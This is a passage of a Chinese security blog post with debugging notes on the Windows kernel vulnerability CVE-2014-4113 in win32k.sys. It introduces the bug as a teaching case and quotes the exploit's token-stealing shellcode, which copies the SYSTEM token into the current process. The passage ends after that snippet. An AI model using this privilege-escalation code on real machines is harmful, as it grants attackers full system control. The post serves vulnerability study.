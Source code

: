 > 原文链接: https://www.anquanke.com//post/id/84869 


# 【技术分享】经典内核漏洞调试笔记


                                阅读量   
                                **152623**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



**[![](https://p5.ssl.qhimg.com/t01d239be01cdf79ab7.jpg)](https://p5.ssl.qhimg.com/t01d239be01cdf79ab7.jpg)**

**作者：**[**k0pwn_ko******](http://bobao.360.cn/member/contribute?uid=1353169030)

**稿费：800RMB（不服你也来投稿啊！）**

**投稿方式：发送邮件至linwei#360.cn，或登陆<strong><strong><strong><strong>[<strong>网页版**](http://bobao.360.cn/contribute/index)</strong></strong></strong></strong></strong>**在线投稿**



**前言**

内核漏洞对我来说一直是一个坎，记得两年前，刚刚接触二进制漏洞的时候，当时今天的主角刚刚出现，当时调试这个漏洞的时候，整个内心都是崩溃的，最近我重温了一下这个漏洞，发现随着自己学习进步，对整个内核漏洞分析的过程也变的越来越清晰，而且在这个内核漏洞的调试过程中发现了一些很有意思的调试细节，因此想把自己的这个调试笔记分享出来，希望能和大家多多交流，也能有更多的进步。

今天的主角就是CVE-2014-4113，这个win32k.sys下的内核漏洞是一个非常经典的内核漏洞，它无论在Exploit利用，内核漏洞的形成原因，可以说是教科书式的，非常适合对内核漏洞感兴趣的小伙伴入门分析。

<br>

**另一种方法定位漏洞**

内核漏洞分析是一个比较复杂的过程，其实无论对于内核态漏洞还是软件态漏洞，都需要通过对补丁，或者PoC，或者Exploit进行阅读，通过对源码的分析可以了解到很多和漏洞有关的细节，所以这次我们也要阅读一下关于CVE-2014-4113的Exp，从中获取一些信息。



```
LRESULT CALLBACK ShellCode(HWND hWnd, UINT uMsg, WPARAM wParam, LPARAM lParam)
`{`
PEPROCESS pCur, pSys ;
fpLookupProcessById((HANDLE)dwCurProcessId,    &amp;pCur);
fpLookupProcessById((HANDLE)dwSystemProcessId, &amp;pSys);
#ifdef _WIN64
*(PVOID *)((ULONG_PTR)pCur + dwTokenOffset) = *(PVOID *)((ULONG_PTR)pSys + dwTokenOffset);
#else
*(PVOID *)((DWORD)pCur + dwTokenOffset) = *(PVOID *)((DWORD)pSys + dwTokenOffset);
#endif
return  0 ;
`}`
```
